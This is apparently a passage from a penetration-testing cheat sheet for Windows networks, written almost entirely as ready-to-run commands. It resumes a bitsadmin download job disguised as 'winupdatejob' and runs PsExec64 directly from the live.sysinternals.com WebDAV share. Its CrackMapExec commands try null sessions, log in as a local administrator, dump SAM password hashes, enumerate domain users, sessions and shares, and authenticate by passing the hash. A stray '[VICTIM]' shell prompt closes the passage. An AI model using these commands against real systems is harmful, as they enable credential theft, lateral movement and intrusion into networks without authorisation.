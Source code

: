 After this, we run the /resume switch to get the download started.

```
bitsadmin /resume winupdatejob
```

## PSexec from WebDAV:

```
\\live.sysinternals.com\tools\PSExec64.exe -accepteula
```

## CrackMapExec Tips and Tricks:

Null session:

```
crackmapexec smb 192.168.2.24 -u "" up ""
```

Connect to target using local account:

```
crackmapexec smb 192.168.2.24 -u 'Administrator' -p 'Password' --local-auth
```

Dump local SAM hashes:

```
crackmapexec smb 192.168.2.24 -u 'Administrator' -p 'Password' --local-auth --sam
```

#### Enumerate Everything:

> [!NOTE]
> Some enumeration methods may fail depending on the privilege level of the user you're authenticating as

Password authentication:

```
crackmapexec smb CIDR/IP -d targetdomain.tld -u username -p 'password' \
--shares \
--sessions \
--disks \
--loggedon-users \
--users \
--groups \
--computers \
--local-groups \
--pass-pol
```

Pass the hash:

```
crackmapexec smb CIDR/IP -d targetdomain.tld -u username -H lm-hash:nt-hash \
--shares \
--sessions \
--disks \
--loggedon-users \
--users \
--groups \
--computers \
--local-groups \
--pass-pol
```


[VICTIM]: PS C:\Users\Victim\Documents>